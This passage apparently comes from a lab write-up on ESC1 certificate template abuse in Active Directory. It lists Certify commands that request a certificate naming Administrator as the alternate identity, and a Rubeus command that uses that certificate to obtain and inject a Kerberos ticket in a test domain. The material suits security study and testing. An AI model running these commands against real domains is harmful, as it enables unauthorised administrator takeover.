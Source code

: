 ```
.\Rubeus.exe asktgt /domain:mcafeelab.local /dc:dc2016-2.mcafeelab.local /user:Administrator /certificate:esc1.pfx /password:test /ptt
```
<img src="/images/2022-09-16/ESC1_8.png">

#### Certify  

```
.\Certify.exe request /ca:'DC2016-2.mcafeelab.local\mcafeelab-DC2016-2-CA-1' /template:"ESC1" /altname:"Administrator"
or
.\Certify.exe request /ca:'DC2016-2.mcafeelab.local\mcafeelab-DC2016-2-CA-1' /template:"ESC1" /altname:"Administrator" /install
```  
